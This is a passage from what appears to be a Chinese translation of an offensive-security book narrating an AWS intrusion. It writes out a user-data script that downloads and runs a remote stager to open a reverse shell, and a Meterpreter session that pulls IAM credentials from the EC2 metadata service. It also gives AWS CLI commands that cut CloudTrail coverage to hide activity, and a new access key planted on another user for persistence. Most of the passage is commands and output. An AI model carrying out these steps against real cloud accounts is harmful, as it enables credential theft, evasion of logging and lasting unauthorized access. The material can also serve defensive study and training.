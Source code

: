作为用户数据传递的脚本（*my_user_data.sh*）将启动我们的反向 Shell：

```
#!/bin/bash
wget https://gretsch-spark-eu.s3.amazonaws.com/stager
chmod +x ./stager
./stager&
```

我们运行前面的 AWS 命令，果然，过了一两分钟后，我们得到了我们希望的最后一个 Shell，以及管理员权限：

```
[*] https://0.0.0.0:443 handling request from...
[*] https://0.0.0.0:443 handling request from...
msf exploit(multi/handler) > **sessions -i 9**
[*] Starting interaction with 9...
meterpreter > **execute -i -H -f curl -a \**
**http://169.254.169.254/latest/meta-data/iam/security-credentials/rundeck**

"AccessKeyId" : "ASIA44ZRK6WS36YMZOCQ",
"SecretAccessKey" : "rX8OA+2zCNaXqHrl2awNOCyJpIwu2FQroHFyfnGn ",
"Token" : "IQoJb3JpZ2luX2VjEJr//////////wEaCWV1LXdlc3QtMSJ...
```

太棒了！我们得到了属于 rundeck 角色的一堆顶级安全密钥和令牌。现在我们有了这些密钥，让我们查询可能暴露的经典服务，看看哪些是活跃的（CloudTrail、GuardDuty 和 Access Analyzer）：

```
root@Point1:~/# **export AWS_PROFILE=rundeck**
root@Point1:~/# **export AWS_REGION=eu-west-1**
root@Point1:~/# **aws cloudtrail describe-trails**

   "Name": "aggregated",
   "S3BucketName": "gretsch-aggreg-logs",
   "IncludeGlobalServiceEvents": true,
   "IsMultiRegionTrail": true,
   "HomeRegion": "eu-west-1",
 1"HasInsightSelectors": false,

root@Point1:~/# **aws guardduty list-detectors**
"DetectorIds": []

root@Point1:~/# **aws accessanalyzer list-analyzers**
"analyzers": []
```

好的，CloudTrail 按预期启用，因此日志可能成为一个问题。没有太大意外。尽管如此，Insights 被禁用了 1，所以如果需要的话，我们可以进行一些批量写入的 API 调用。GuardDuty 和 Access Analyzer 返回空列表，因此它们在这个组合中也缺席。

让我们暂时盲目地隐藏日志轨迹，并向 Camellia 的用户账户中插入一个访问密钥，以增强我们的持久性。如果我们想重新获得对 GP 账户的访问，她的权限完全足够：

```
root@Point1:~/# **aws cloudtrail update-trail \**
**--name aggregated \**
**--no-include-global-service-events \**
**--no-is-multi-region**

root@Point1:~/# **aws iam list-access-keys --user-name camellia**

"AccessKeyId": "AKIA44ZRK6WSXNQGVUX7",
"Status": "Active",
"CreateDate": "2019-12-13T18:26:17Z"

root@Point1:~/# **aws iam create-access-key --user-name camellia**
{
    "AccessKey": {
        "UserName": "camellia",
        "AccessKeyId": "AKIA44ZRK6WSS2RB4CUX",
        "SecretAccessKey": "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",
```